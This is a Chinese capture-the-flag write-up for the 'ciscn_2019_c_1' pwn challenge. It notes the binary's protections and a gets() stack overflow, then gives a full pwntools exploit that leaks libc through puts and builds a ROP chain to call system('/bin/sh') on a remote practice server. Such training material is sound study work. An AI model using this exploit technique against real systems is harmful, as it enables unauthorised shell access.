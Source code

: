 # 知识点

ret2libc



# 题目分析

1. 查看保护情况，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现main函数菜单中只有一个encrypt函数可以调用。

   函数起始处存在gets函数栈溢出漏洞，可以通过puts函数泄漏libc从而进行ret2libc。

   <img src="./asset/ida1.png" alt="ida1" style="zoom: 42%;" />

# Exp

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_c_1')
io = remote('node4.buuoj.cn', '28381')
elf = ELF('./ciscn_2019_c_1')
libc = ELF('./libc-2.27.so')

main = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

ret = 0x4006b9
pop_rdi = 0x400c83

# leak puts
io.sendlineafter('choice!\n', '1')

payload = 'A' * 0x50 + 'deadbeef' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

io.sendlineafter('encrypted\n', payload)

puts_real = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
success('puts_real = ' + hex(puts_real))

# leak libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.sendlineafter('choice!\n', '1')

payload = 'A' * 0x50 + 'deadbeef' + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)

io.sendlineafter('encrypted\n', payload)

io.interactive()
```


